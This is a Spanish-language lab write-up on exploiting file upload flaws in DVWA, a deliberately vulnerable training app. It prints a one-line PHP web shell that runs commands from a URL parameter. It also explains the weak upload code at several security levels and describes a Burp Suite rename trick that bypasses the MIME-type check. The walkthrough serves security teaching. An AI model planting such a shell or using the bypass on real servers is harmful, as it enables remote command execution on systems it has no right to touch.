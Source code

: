 # POC File Upload

## 0 seguridad ☠️

Empezaremos las pruebas de este exploit usando un archivo php simple que nos permitirá ejecutar código remoto en el equipo atacado de forma sencilla. Este código se explica en el archivo MD File upload.

```php
❯ cat shell.php
───────┬────────────────────────────────────────────
       │ File: shell.php
───────┼────────────────────────────────────────────
   1   │ <?php echo system($_GET['command']); ?>
───────┴────────────────────────────────────────────
```

Como vemos el archivo se puede subir sin problemas y conseguimos una ejecución remota de comandos.

![image-20230227194052694](./../img/Explotación File Upload/image-20230227194052694.png)

Y es posible ejecutarlo en el servidor permitiendo hacer una inyección de comandos.

![image-20230227194212242](./../img/Explotación File Upload/image-20230227194212242.png)

Podemos ver el código fuente y ver que esta sucediendo durante la subida del archivo.

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?>

```

Actualmente el problema con este código es que no verifica si el archivo subido es seguro. El código simplemente acepta cualquier archivo que el usuario haya cargado y lo mueve al servidor sin realizar ninguna verificación de seguridad. Esto significa que si un usuario malintencionado sube un archivo malicioso, podría ejecutar código malicioso en el servidor.

Veamos de forma mas detallada que sucede en este código y porque es inseguro actualmente.

```php
if (isset($_POST['Upload'])) {
```

Esta línea comprueba que se ha enviado el formulario a través del método POST y si el botón de envío se llama Upload en caso afirmativo empieza a procesar el archivo.

```php
$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );
```

Estas líneas definen la ruta donde se guardará el archivo cargado en el servidor.  El código agrega la parte de la ruta donde se almacenarán los archivos cargados y el nombre del archivo cargado. El nombre del archivo cargado se obtiene a través de la variable $_FILES, que contiene información sobre el archivo cargado.

```php
if (!move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path )) {
```

Esta linea intenta mover el archivo a su destino final, si este no se puede mover daría error.

Como vemos en ningún momento se comprueba que estemos subiendo un fichero legitimo y es por ello que podemos ejecutar código remoto.

## Un poco de seguridad 💀

Si intentamos subir ahora el codigo que vimos anteriormente veamos que sucede.

![image-20230227200039644](./../img/Explotación File Upload/image-20230227200039644.png)

Como vemos detecta que no es una imagen y nos lo hecha para atras. Veamos el codigo para ver que medidas de seguridad se han implementado y como podemos romperlo.

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?> 
```

Desgranemos el codigo para ver mas en detalle que sucede ahora.

```php
$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
$uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
```

Esta sección del código obtiene la información del archivo cargado, incluyendo su nombre, tipo y tamaño. Esta información se usará más adelante en el código para verificar si el archivo cargado es seguro. Por lo que si el tipo ya no coincide con el que nos pedirán posteriormente no podremos realizar la subida del archivo.

```php
// Is it an image?
if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
    ( $uploaded_size < 100000 ) ) {

```

Esta sección del código verifica si el archivo cargado es una imagen JPEG o PNG y si su tamaño es menor a 100.000 bytes. Si se cumple esta condición, el archivo se considera seguro y se puede mover a la ruta de destino. Como hemos visto nuestro archivo no se sube a la pagina web porque no cumplimos estas condiciones. 

Aunque, ¿Es esto insalvable?....

### Rompiendo lo "seguro"

Para realizar el final de esta practica deberemos de utilizar un software que pare la petición por nosotros y poder modificarla antes de que se envie al servidor para ello usaremos burpsuite.

![image-20230227201657172](./../img/Explotación File Upload/image-20230227201657172.png)

Si paramos la petición veremos que esta intentando subir el archivo shell2.php.jpg que hemos utilizado en esta ocasión para comprobar si la subida de archivos es insegura. Realizando un cambio en el envio y cambiando el nombre shell2.php.jpg por shell2.php

![image-20230227201746999](./../img/Explotación File Upload/image-20230227201746999.png)

![image-20230227201804557](./../img/Explotación File Upload/image-20230227201804557.png)

### Seguridad?? 👻

Por definir si queremos llegar al nivel alto de DVWA el metodo anterior tambien lo rompe.

```php
 <?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>

```



